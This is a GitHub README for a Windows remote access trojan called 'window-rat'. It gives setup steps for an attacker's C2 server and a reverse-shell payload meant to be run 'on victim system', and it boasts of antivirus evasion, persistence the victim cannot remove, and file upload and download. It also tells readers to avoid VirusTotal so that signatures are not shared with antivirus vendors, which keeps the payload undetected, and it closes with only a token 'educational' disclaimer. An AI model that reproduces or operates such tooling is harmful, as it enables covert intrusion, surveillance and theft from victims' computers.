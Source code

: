 # window-rat:

# Introduction:
    A Fully Undectable Window RAT that bypass window 10 Defender protection and also bypass 99.9% of other antivirus protections.
    
![c2a](https://user-images.githubusercontent.com/82051128/201597249-39a6b071-1277-4bbf-a720-f9d1aa537d0e.png)

# C2 Server Requirements:-
       pip install termcolor
       pip install pyfiglet
 
# Installation:
    1. git clone https://github.com/machine1337/window-rat
    2. pip install -r requirements.txt
    3. python3 c2.py (your command server from where u will handle targets)
    4. payload.py (your payload u will send to victim)
    5. IP and Port in both payload.py and server.py Must be same
    
# Usage:
    1. python3 c2.py
    2. Now enter IP (your IP or server in which u want to get reverse shell)
    3. Now enter PORT (which port u want to connect)
    4. Listener will be started
    5. Now go to payload.py line no. 36 and put ip and port of server s.connect(('ipserver', portserver))
    6. test the payload.py on victim system
 
# Commands:-
   -> C2 SERVER COMMANDS:
      ![c21](https://user-images.githubusercontent.com/82051128/201598677-206191a5-c671-4007-9f9a-402db123ec99.png)
   
   -> After Got Connection (type help)
      ![shellc2](https://user-images.githubusercontent.com/82051128/201598869-0b6fe1c8-9ed6-4e4b-997d-42f66a59f0ca.png)

# Warning:
    1. Don't Upload Any Payloads To VirusTotal.com Bcz This tool will not work
       with Time.
    2. Virustotal Share Signatures With AV Comapnies.
    3. Again Don't be an Idiot!

# Features:
    1. Very Simple And Fully Undectable RAT For Windows
    2. Multi Client Handling
    3. Persistent  Shell
    4. Upload File
    5. Download File
    4. Once Victim Execute the Payload And We got Shell Then Victim Can't Remove the payload
       Until the Shell is Open In Attacker System.
    5. U can Convert payload.py to exe using pyinstaller tool in windows.
    
# Note:
    Don't upload exe format to virustotal as I have already uploaded
    Ps payload to virustotal. or u can check this file on nodistribute.com because they
    don't submit signatures to antivirus companies.
    Reason: They will submit this payload to different AV companies
    And as a result this script will not work w.r.t time.
    
# Donations:
   BTC Address:  3Dvzx2RKMR731VSEPXXgPyBq6Ln4JJdYPD
   


# Warning:
    Use this tool Only for Educational Purpose And I will Not be Responsible For ur cruel act.
    
    
